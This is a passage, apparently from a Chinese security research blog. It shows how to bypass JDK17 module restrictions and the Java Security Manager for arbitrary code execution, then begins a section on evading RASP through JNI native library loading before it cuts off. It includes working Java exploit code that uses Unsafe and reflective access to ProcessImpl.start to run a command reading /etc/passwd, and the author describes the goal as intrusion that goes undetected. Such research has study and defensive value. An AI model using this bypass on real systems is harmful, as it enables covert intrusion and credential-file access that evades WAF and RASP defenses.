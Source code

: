 到此，我们就实现了单文件绕过 JDK17、Java Security Manager 的限制实现任意代码执行

> 既然我们已经可以反射访问 `java.*`了，这里也可以直接反射调用 `java.lang.ProcessImpl#start`来绕过 Java Security Manager 的检查，而不用去赋予栈帧权限，代码如下：

```bash
public class ExpTest {

    static {
        try {

            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

##   

## JNI 绕过 RASP

> 对于这个漏洞，是非常典型的“无特征”型的通用漏洞（此处是我自己下的定义：）），这是什么意思呢，即这个漏洞所有请求都是正常的业务行为，在 waf 层是无法防御的；
> 
> 在应用层上，就只能靠 rasp 去防御了，而对于此漏洞的调用链，也是没有明显通用特征的，由于漏洞利用的是 `create`/ `backup`/ `upload`这些业务常用的接口，所以 hook 这些方法可能对性能影响很大，就只能依赖于捕获攻击者后利用的调用方法了，例如 `Runtime.getRuntime().exec("calc");`之类的
> 
> 因此如果能实现命令执行绕过 rasp，也就基本实现了无感入侵

前置知识：JNI 实现 RCE：https://javasec.org/javase/JNI/

### 一次失败的尝试

> 在上文的基础上，我们赋予了所有栈帧全部权限，所以其实直接使用 `System.load()`去加载动态链接库就可以了；不过一开始我想通过一个另外的方法来实现

直接执行 `System.load()`的话，会受到 Java Security Manager 的限制，我们首先查看 `security.policy`，可以看到关于 `loadLibrary`的权限有如下几个：
